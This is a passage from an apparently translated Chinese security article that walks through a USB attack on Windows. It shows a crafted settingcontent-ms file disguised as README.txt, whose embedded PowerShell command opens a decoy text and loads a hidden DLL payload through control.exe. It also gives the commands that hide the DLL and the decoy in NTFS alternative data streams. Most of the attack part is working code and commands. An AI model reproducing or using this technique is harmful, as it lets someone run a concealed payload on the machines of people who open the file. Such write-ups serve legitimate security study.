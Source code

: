 1、调用wmi来获取USB卷名，存放到`$drive`变量中；

2、运行notepad打开`README.txt.settingcontent-ms:T.txt`中的诱骗文件。

3、运行`control.exe`来加载`README.txt.settingcontent-ms:R`中的DLL载荷。

需要注意的是，这里我们可以参考上一种场景，使用rundll32来运行DLL，然而我想尝试一下其他方法。

构造完毕的`README.txt.settingcontent-ms`文件如下所示：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;PCSettings&gt;
  &lt;SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent"&gt;
    &lt;ApplicationInformation&gt;
      &lt;AppID&gt;windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel&lt;/AppID&gt;
      &lt;DeepLink&gt;%windir%system32cmd.exe /c powershell.exe $drive=(Get-WmiObject Win32_Volume -Filter "DriveType='2'").Name;Start-Process "notepad.exe" "$driveREADME.txt.settingcontent-ms:T.txt"; Start-Process "control.exe" "$driveREADME.txt.settingcontent-ms:R"&lt;/DeepLink&gt;
      &lt;Icon&gt;.&lt;/Icon&gt;
    &lt;/ApplicationInformation&gt;
    &lt;SettingIdentity&gt;
      &lt;PageID&gt;&lt;/PageID&gt;
      &lt;HostID&gt;`{`12B1697E-D3A0-4DBC-B568-CCF64A3F934D`}`&lt;/HostID&gt;
    &lt;/SettingIdentity&gt;
    &lt;SettingInformation&gt;
      &lt;Description&gt;@shell32.dll,-4161&lt;/Description&gt;
      &lt;Keywords&gt;@shell32.dll,-4161&lt;/Keywords&gt;
    &lt;/SettingInformation&gt;
  &lt;/SearchableContent&gt;
&lt;/PCSettings&gt;
```

### <a class="reference-link" name="%E5%88%9B%E5%BB%BAAlternative%20Data%20Stream"></a>创建Alternative Data Stream

首先，我们需要确保USB介质已经使用NTFS文件系统格式化过。

其次，将`README.txt.settingcontent-ms`文件移动到NTFS USB介质中。

在这个例子中，USB介质所对应的卷标为“G:”。

现在我们可以来构建ADS。

首先是包含DLL的`README.txt.settingcontent-ms:R`流：

```
type payload.dll &gt; G:README.txt.settingcontent-ms:R
```

然后是包含诱骗文本的`G:README.txt.settingcontent-ms:T.txt`流：

```
type Text.txt &gt; G:README.txt.settingcontent-ms:T.txt
```

我们可以使用sysinternal的“Streams”工具来检查创建的ADS的确对应USB介质上的文件。
